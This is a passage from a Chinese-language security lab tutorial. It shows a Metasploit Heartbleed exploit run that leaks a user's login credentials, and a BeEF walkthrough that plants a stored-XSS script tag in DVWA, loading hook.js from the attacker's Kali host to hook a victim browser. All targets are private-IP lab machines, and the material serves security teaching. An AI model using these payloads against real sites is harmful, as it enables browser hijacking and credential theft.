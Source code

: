    `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > exploit`

![](./pictures/msf_heartbleed_result.png)

可以看到有人正在登录，用户名和密码已泄漏。

### 说明

由于上一节中无法编译成功，本节heartbleed漏洞利用基于msf完成。

## 7.3 使用BeEF利用XSS

### 准备

进入/usr/share/beef-xss/运行`./beef`启动beef，若beef-xss未安装，执行`apt-get install beef-xss`，beef不允许使用默认的用户名/密码登录，需要修改配置文件/etc/beef-xss/config.yaml中的密码，然后就可以启动beef了。

访问<http://127.0.0.1:3000/ui/panel>并使用自己设置的用户名/口令登录。

### 步骤

1. 使用win7虚拟机（192.168.254.128）访问<http://192.168.2.167/dvwa/vulnerabilities/xss_s/>，添加评论，内容为`<script src="http://192.168.254.130:3000/hook.js"></script>`

2. 在kali虚拟机(192.168.254.130)访问<http://127.0.0.1:3000/ui/panel>，可以看到win7虚拟机的浏览器上线
